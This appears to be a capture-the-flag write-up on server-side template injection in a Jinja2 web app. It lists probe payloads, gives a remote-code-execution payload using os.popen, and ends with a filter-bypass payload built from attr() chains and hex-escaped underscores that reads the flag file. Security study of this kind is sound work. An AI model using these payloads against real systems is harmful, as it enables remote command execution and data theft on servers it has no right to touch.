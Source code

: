 ![image](https://github.com/user-attachments/assets/4de07562-1ec6-4ef0-aa63-34455cade732)
![image](https://github.com/user-attachments/assets/a7d029e3-dd7a-4dee-acf2-6a357ef3da11)

First we'll burp the request and look for a plave where we can inject the payload.

![image](https://github.com/user-attachments/assets/4596baba-591f-4868-ab68-2193a40a688e)

Alright, now we have find payloads that we can use.

https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection

These are the payloads we gonna use to find if the website is vulnerable. we can use burp's intruder for this.

{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}

![image](https://github.com/user-attachments/assets/b02e748f-0e1e-4465-8990-d6895e978064)


{{7*7}} seems to be working for us. we recieve 49 as the response, so it evaluates the numbers.

![image](https://github.com/user-attachments/assets/f2d3f749-6c3c-4936-baf1-459f5b40e562)

{{7*'7'}} gives us 7777777, this confirms that this is Jinja2.

{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}

we can use this payload.
![image](https://github.com/user-attachments/assets/a4f6b845-ae5f-4ab2-974b-5b0726de7a4a)

Keywords are being filtered.

Now we have to bruteforce to find how we can bypass this filter.


![Screenshot 2025-05-14 135124](https://github.com/user-attachments/assets/1d060bdf-ffa5-40d3-b2ca-0c4ed4c9940b)

Now we know the method, we can easily craft a payload to find the flag.

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|
attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|
attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|
attr('popen')('cat flag')|attr('read')()}}
